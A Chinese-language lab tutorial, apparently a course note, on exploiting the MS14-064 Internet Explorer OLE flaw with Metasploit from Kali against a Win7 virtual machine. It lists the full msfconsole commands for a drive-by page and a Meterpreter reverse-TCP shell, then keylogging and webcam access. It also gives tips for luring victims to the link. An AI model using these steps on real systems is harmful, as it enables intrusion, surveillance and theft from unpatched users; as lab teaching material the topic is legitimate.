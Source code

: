 [TOC]

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/e275148b-a333-405c-892b-0c14af938d6b.jpg)

针对系统,系统软件;(shell就是界面)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/adabdf66-893a-453b-9c7f-9fdb0885fa41.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/8112ad51-de4f-4d36-b95e-5cbc70aa336a.jpg)

在kali_linux里面用它;
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/c473b601-a644-42e9-9ae1-16c414fcb665.jpg)
```
service postgresql start
msfdb init
msfconsole
```
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/034f9734-c019-4e7d-b814-4a825938bc0d.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/7e9b4174-448f-4b3d-b342-562cf3a688c2.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/e8c3387a-d2b2-4f79-9af5-05c996055395.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/a0b1def5-3389-4c03-88b8-1fb53e9ef52c.jpg)

这里主要用exploite+payload!!!

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/fba1c2c2-aa37-4f0b-82b9-008010ca3a2d.jpg)

powershell是微软推出的一个命令行界面,它不同于dos命令！
## 实验准备
需要开两台虚拟机，一台win7,一台kali虚拟机；
(我这里两台的配置内存和处理器皆设为1G,1)
kali里面先运行上面的命令;
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/4ffe84d9-04a3-4c0e-9f6b-9121ebdb43b5.jpg)

发现没有ping通！！
而两个虚拟机用的皆是桥接模式;可能是win7里面的防火墙w问题;
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/2118bda2-dd58-45dc-affc-22de1ad70321.png)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/093f2411-d12c-4575-acef-c9e053b73d00.png)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/5078e820-1df0-4c09-ac69-fe43b98a1d57.png)

将下面这两个启用即可：
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/095e39a2-b673-403c-89c1-1fcf0e38e359.png)
## 步骤
再来看一看kali里面:
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/8ca951d9-e35d-47e1-a49b-6933ded0f204.jpg)


搜索漏洞编号`search MS14_064`,可以找到三个相应的漏洞利用;
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/bbb939e4-6b97-4c34-bb30-07c9c6d84ff4.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/2057b22b-a2b1-4105-b20a-b43830441517.jpg)
敲的时候可以利用Tab键;
下面对这个exploite进行设置;
`use exploit/windows/browser/ms14_064_ole_code_execution`
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/480fc7d0-18ec-409e-911f-91ff535c238d.jpg)
查看当前设置:`show options`

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/a9698341-4f0c-47eb-a9b2-e7ca33b4122d.jpg)

`set allowpowershellprompt true`设置powershell可以用的;
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/aa4826a4-5807-4774-81d9-092c1c2e9f0c.jpg)
可以看到设置好了,下面一个需要进行SRVHOST的设置;
host是主机的意思,srv是服务的意思;
利用这个exploite需要将当前的kali设置为web服务器！在web服务器里面会自动生成网页！然后对方（攻击的目标）只要访问了这个网页,就会执行缓冲区溢出的代码;而要搭建一个web服务器,就需要指定一个ip;SRVHOST就是给服务器指定ip!
`set srvhost 192.168.2.135`
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/42d88f75-7cd7-4bc8-b06b-493006ad2a6f.jpg)

这里就把ip设为kali_linux的ip;

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/94312ef5-dfd4-4f6c-9c58-784ca7d6c22d.jpg)


还有一个是srvport需要设置:(可以用默认的,也可以改成别的端口号)
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/8c63e149-91bc-42e3-a131-5c2705cb8c33.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/06290615-9100-47b3-8b45-3c1365cd66ef.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/c482198d-5627-44b3-9fc9-74e398773fc0.jpg)

```
set payload windows/meterpreter/reverse_tcp

```
这里这个名字`windows/meterpreter/reverse_tcp`务必记住！！！

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/eacc598c-2d1d-4ded-a7b3-acce277660fb.jpg)

下面是需要对payload进行设置的;
LHOST这里的L指的是listen;
攻击对方 成功之后,实际上就是在对方系统里面运行木马程序;这里的payload就是一个木马程序;
现在的木马程序都是反弹连接木马,木马程序分客户端和服务端;
如果你要在被攻击的计算机上,来运行服务端;你在你的计算机上面运行客户端,让服务端来连接客户端;这叫反弹连接(反弹shell);
如果黑客主动连接肉鸡的话,一是你不知道肉鸡ip,二是如果它在内网里面用的私有ip,你也没有办法主动连接;
所以要在黑客端口开放一个端口来监听,让肉鸡连接你;
上面这两个一个是监听的ip(这里是kali机的ip)还有一个是监听的端口(这里的端口是4444,与上面的8080不一样！8080那边是在kali 上面搭建的一个服务器,在服务器里面做的一个 有代码的网页！人家一访问你就中招了);4444端口是监听肉鸡的连接的！

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/f711bb9c-f8d8-4af8-adeb-a7d8d9ebf583.jpg)
`set lhost 192.168.2.135`
这里的端口使用默认的4444端口！
## 执行
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/9e3975fb-ae9c-4384-a2dc-abb16476483a.jpg)
使用命令`exploit`
此时kali已经变成web服务器了！
这个url是有攻击代码的网页！只要让对方访问这个网页就中招了！
下面一步就是如何把这个url散布出去,让别人访问！
(有的人可以发个中奖信息,其实链接是这个url;有的人是发个网页里面是个美女图加一个浮动框架就可以让人中招；不过前提是这些人没有打这个漏洞的补丁！所以说0day很值钱！！)

这里直接将此连接复制至另外一个虚拟机里面(通过物理机中转一下！)
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/af6f1015-5b19-47b6-8898-16dd45f41c7e.png)

下面这个是kali里面的:
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/92fa8043-d2a5-46c5-bebb-adca2409c691.jpg)
此时win7已经中了木马,获得其系统shell;
现在已经控制虚拟机了,怎么用呢,
`session -l`功能是查看有几个中招的;

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/019c9148-df8e-4c9e-9422-a3b9c93f0cc8.jpg)

`sessions -i 1
`
表明想控制一号（即打开一号机的木马）
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/5affb79d-9c2e-44ce-9d1e-283c7e218086.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/d042f67b-9a8b-428a-a9e9-270c4e0365c8.jpg)
进入到木马控制界面！！！

输入help查看如何利用木马！！
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/84a05df8-4b7e-455c-b53a-1a1386e229f2.jpg)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/03dffe90-493f-4ec3-80cd-006098ea1501.jpg)
exit退出;
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/e22b22cf-b4ba-4608-8a8b-a84d3954b738.jpg)
![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/9cb2e3ee-4f02-48f5-9aeb-e1bbdfa1b6aa.png)

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/6f2e03d2-a799-4070-88b5-d725ed42284b.jpg)

监听键盘：889910就是刚才在肉鸡里面用键盘输入的;

![]((24-25)MSF的使用_XSS跨站点脚本攻击_实现网页挂马_files/8f39e176-49e3-4d50-a806-719a9893b9f1.jpg)

摄像头的相关操作！


## 相关命令总结
```
service postgresql start
msfdb init
msfconsole


search MS14_064

use exploit/windows/browser/ms14_064_ole_code_execution

show options

set allowpowershellprompt true

set srvhost 192.168.2.135


set payload windows/meterpreter/reverse_tcp

set lhost 192.168.2.135
exploit
拷贝url至相关机器上面(实际中要让被攻击这点击这个url)


session -l

sessions -i 1
```






